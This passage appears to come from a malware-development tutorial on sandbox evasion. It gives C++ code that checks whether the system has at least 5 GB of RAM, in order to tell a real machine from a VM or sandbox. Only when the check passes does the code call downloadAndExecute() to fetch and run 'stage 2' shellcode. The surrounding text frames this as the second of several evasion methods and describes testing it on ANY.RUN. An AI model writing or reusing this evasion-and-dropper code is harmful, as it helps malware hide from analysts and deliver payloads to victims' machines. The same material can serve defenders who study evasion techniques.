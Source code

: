 
**Integrating this into our Code**:

```cpp
BOOL memoryCheck() {
	// This function will check and see if the system has 5+GB of RAM

	// Declare the MEMORYSTATUSEX Struct    
    MEMORYSTATUSEX statex;
	
	// Set the length of the struct to the size of the struct    
    statex.dwLength = sizeof(statex);
	
	// Invoke the GlobalMemoryStatusEx Windows API to get the current memory info    
    GlobalMemoryStatusEx(&statex);
	
	// Checks if the System Memory is greater than 5.00GB  otherwise, the malware is probably is on a VM.
    if (statex.ullTotalPhys / 1024 / 1024 / 1024 >= 5.00) {        
       return TRUE;    
    } else {        
       return FALSE;
    }
}

int main() {
// Evaluates if the installed RAM amount is greater than 5.00 GB,
//if true download Shellcode, if false, exit the program.    
if (memoryCheck() == TRUE) {        
    downloadAndExecute();    
    } else {        
       exit;    
    }
return 0;
} 
```

		Breakdown:
		1. We're creating a new function "memoryCheck" that will return True or False.
		2. We use the previous code from above to get the size of the system memory.
		3. We check if the system memory is greater than 5GB; If it is true, return TRUE; if false, return FALSE.
		4. The value returned from the function determines if we download and execute stage 2 or not.

- Now that we have the technical know-how, we should integrate this check into our code.
- Generally speaking, ***most Sandboxes have 4GB of RAM dedicated to the machine***, so we should check and see if the memory count is greater than 5.

		- If it is not, exit the program.
		- If it is, continue execution.

- We will not be modifying the `downloadAndExecute` function anymore.

**Testing our Code with ANY.RUN**:
- Now that we have finished the second of our third Sandbox Evasion method, it is important that we test it to ensure that it works:
